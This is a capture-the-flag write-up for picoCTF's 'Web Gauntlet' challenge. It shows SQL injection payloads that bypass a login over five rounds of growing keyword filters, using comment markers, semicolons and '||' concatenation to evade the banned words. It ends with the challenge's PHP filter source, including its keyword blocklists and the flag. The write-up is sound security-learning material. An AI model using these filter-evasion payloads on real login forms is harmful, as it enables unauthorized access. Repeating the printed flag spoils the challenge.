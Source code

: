 +++
title = "Web Gauntlet"
date = "2020-12-22"
author = "RealFakeAccount"
description = "https://play.picoctf.org/practice/challenge/88?category=1&page=1"
+++

Put any username and password and you can see the SQL query.

<http://jupiter.challenges.picoctf.org:19593/filter.php> tells us which words is banned.

*Notes:*

Here is some common way to comment in SQL:
1. #
2. --
3. //
4. /**/
5. ; %00

### Round 1

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or
```

For the detail of the banned "OR" method, see <https://owasp.org/www-community/attacks/SQL_Injection>

let's use another methods.

We can change the username into `admin' --`, so the original SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' --' AND password='a'
```

which comments out the password part.

### Round 2

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and like = --
```

Use ; to force break the query. 

Our username input is: `admin' ;`

and the SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' ;' AND password='a'
```

### Round 3


Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
   or and = like > < --
```

Note that Space is also in this filter. Use "View page Sourse" to see the space. 

So we can just erase the block in previous round: `admin';`, which gives us

```sql
SELECT * FROM users WHERE username='admin';' AND password='a'
```

### Round 4

They banned the `admin` now. Also, our `;` doess not work in this question.

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and = like > < -- admin
```

Luckly, SQL have some function to concatenate string: `CONCAT`, `+`, `||`

After a few trial, we find that `||` worked.

Our payload is: `ad'||'min'/*`

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

### Round 5

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
 or and = like > < -- union admin```
```

Previous one still work.

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

After finish all 5 rounds, we can finally see the filter php file:

```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?> 
```